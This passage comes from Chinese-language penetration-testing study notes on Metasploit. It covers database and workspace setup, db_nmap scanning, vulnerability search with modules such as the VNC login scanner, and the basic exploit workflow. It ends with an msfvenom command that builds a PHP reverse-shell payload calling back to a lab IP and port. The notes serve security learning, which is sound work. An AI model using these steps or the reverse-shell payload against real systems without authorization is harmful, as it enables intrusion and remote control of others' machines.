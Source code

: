         ![SMB操作](image/smb%E6%93%8D%E4%BD%9C.jpg)     
- Metasploit 数据库
  - 实际的渗透测试参与可能会有多个目标，Metasploit 具有数据库功能，可简化项目管理并避免在设置参数值时可能出现的混淆
  - 使用 `Postgresql`数据库
    - `systemctl start postgresql`
  - `msfdb init`命令初始化 Metasploit 数据库
  - 在`msfconsole`中使用 `db_status` 确认数据库状态
  - 创建工作区以隔离不同的项目
    - `workspace`
    - `workspace -a ` 创建工作区
    - `workspace -d`  删除工作区
  - Metasploit 数据库启动后，`help` 显示基于数据库的相关命令
    - 例如使用`db_nmap`,所有的结果都将保存在数据库中
    - 扫描完成后，使用`hosts`和`services`可以得到目标系统的相关信息
    - `hosts -R`可以设置 RHOSTS 参数的值
    - `services -S netbios` 检索指定的服务类型
- 漏洞扫描
  - Metasploit 可以快速识别一些 "low hanging fruit" 的关键漏洞。这些漏洞可能会让攻击者在系统上站稳脚跟，在某些情况下，还可以获得高级权限，例如 root 或管理员
  - 漏洞扫描的结果取决于目标扫描的完成度
  - 使用`search`搜索相关服务，查找漏洞
    - `search vnc`
    - `use auxiliary/scanner/vnc/vnc_login`
    - `info`
- Exploitation
  1. `search` 查找合适的 exploit
  2. `show options`
  3. `show payloads`
  4. `set payload`
  5. `exploit`
  - 后台`CTRL+Z` 
  - 中止`CTRL+C`
  - `sessions`
- Msfvenom
  - 用于代替 Msfpayload 和 Msfencode,生成 payload
  - Msfvenom 可以访问 Metasploit 框架中可用的所有 payload
  - Msfvenom 可以以多种不同的格式（PHP、exe、dll、elf 等）和针对多种不同的目标系统（Apple、Windows、Android、Linux 等）创建 payload
  - 举例：生成反向shell
    `msfvenom -p php/reverse_php LHOST=10.0.2.19 LPORT=7777 -f raw > reverse_shell.php`
  